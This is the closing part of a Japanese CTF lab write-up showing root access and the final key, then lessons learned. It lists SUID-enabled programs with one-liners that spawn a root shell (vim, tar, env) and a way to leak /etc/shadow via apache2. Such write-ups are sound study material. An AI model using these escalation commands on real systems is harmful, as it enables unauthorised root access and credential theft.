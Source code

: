root 昇格！

```shell
# ls -al /root
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

完了！

## 振り返り

- robots.txt に書かれているのは「見られたくないファイル」かもしれない
- CTF の文脈では、謎のワードリストが提供されたらブルートフォースに使えという意味かも（遅延戦術じゃなければ）
- MD5 ハッシュは、1 つのサイトでヒットしなくても、複数のサイトを回れば見つかる可能性がある
- 外部コマンドを実行可能なプログラム に suid が付いていたら容易に root を取られる

### SUID ビットの設定が特に危険なプログラム

- エディタ: vim, nano, vi

```shell
vim -c '!sh'
```

- シェル: bash, sh
- スクリプト実行環境: python, perl, ruby 他多数
- デバッガや実行環境: gdb, strace, gcc
- アーカイブ: tar, zip/unzip, 7z

```shell
tar -cf /dev/null /dev/null --to-command=/bin/sh
```

- ネットワーク: nmap, ftp, scp, apache2

```shell
# invalid command として1行目（root）が表示される
apache2 -f /etc/shadow
```

- DBMS: mysql, psql
- その他: tmux/screen, env

```shell
env /bin/sh
```
